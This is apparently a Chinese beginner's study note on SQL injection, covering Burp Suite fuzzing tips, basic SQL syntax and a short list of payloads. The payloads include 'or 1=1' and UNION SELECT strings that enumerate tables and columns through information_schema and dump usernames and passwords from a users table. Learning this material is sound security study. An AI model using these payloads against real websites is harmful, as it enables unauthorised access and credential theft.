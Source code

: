 ```yaml
---
title: sql注入
date: 2023.3.25
updated: 2023.3.25
categories: 网络安全 
tags: web安全
description: 从0开始的sql注入
---
```

# **从0开始的sql注入**
## burpsuite fuzz
* Fuzz testing是生成大量数据并且对系统产生大量异常请求，通过大量恶意请求查找漏洞。在这个过程中我们可以依赖于部分工具来实现参数化，本文以burpsuite为工具以文件上传为例,可用此爆破过滤的关键字
* 遇到的问题：
在爆破时遇到报错：Too Many Reqests!
将线程数改为1，时间间隔改小一点
## 查询所有数据：
```
?id=1 or 1=1
```
## 常用语句
* 常用函数：
```
database()	//查询数据库
user()		//当前数据库用户名
version()	//MySQL 版本
```
* 爆表
```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
* 爆字段名
```
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```
* 相应字段内容
```
?id=-1' union select 1,2,group_concat(id,':',username,':',password) from users --+
```

## 1.sql基本语法
### 1.1 sql select

```sql
select column1,column2 from table_name;     //从表中选取列
select * from table_name;       //从表中选取所有列
```
*column：(列)字段名*
